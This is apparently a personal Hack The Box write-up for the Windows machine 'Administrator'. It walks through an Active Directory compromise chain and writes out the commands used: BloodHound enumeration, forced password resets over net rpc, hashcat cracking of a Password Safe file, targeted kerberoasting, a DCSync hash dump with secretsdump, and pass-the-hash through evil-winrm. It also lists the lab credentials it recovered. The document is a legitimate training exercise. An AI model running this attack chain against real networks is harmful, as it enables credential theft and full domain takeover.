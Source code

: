 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info

	```sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all```

4. load bloodhound info
5. bloodhound finds that olivia has GenericAll privs over michael

![image](https://github.com/user-attachments/assets/465491ec-fada-4fb5-93a8-c87657433cbe)

5. change michael's password
	
 	```net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"```

![image](https://github.com/user-attachments/assets/2b513753-0287-4187-87ad-8c5822921a5b)

6. michael has ForceChangePassword permission over benjamin

![image](https://github.com/user-attachments/assets/908af74c-ab83-4ecd-841c-7a0a2424dda1)

7. change benjamin's password 
	
 	```net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"```

![image](https://github.com/user-attachments/assets/075d1086-566b-4d1a-aaa8-3410f46b5664)

8. benjamin can login to ftp, get Backup.psafe3 file

![image](https://github.com/user-attachments/assets/4788173f-4ac8-4391-ae25-0f660d10286f)

9. use hashcat to crack password on psafe3
	
 	```hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt```

10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan

![image](https://github.com/user-attachments/assets/efa95615-b1f6-49df-9c9f-52138705e2c6)

13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	
 	```targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb```

![image](https://github.com/user-attachments/assets/457a3b7e-2e71-48e6-8d52-8c4f11422798)

15. this reveals ethan's password is `limpbizkit`

![image](https://github.com/user-attachments/assets/fbdf1e5a-0096-4f89-a890-97fc07a89c1b)

16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	
 	```secretsdump.py administrator.htb/ethan:limpbizkit@[IP]```

![image](https://github.com/user-attachments/assets/fdfcde64-d5a7-40ad-9af6-b515e73e8769)

![image](https://github.com/user-attachments/assets/2967cec7-9da7-4d2f-8dec-c0916ff50ca5)

17. this gives us Administrator hash so can do PtH with evil-winrm 
	
 	```evil-winrm -i [IP] -u administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/27ddb48f-62ec-49d8-9ba0-a104cd4df325)

18. gives us admin shell and rooted!
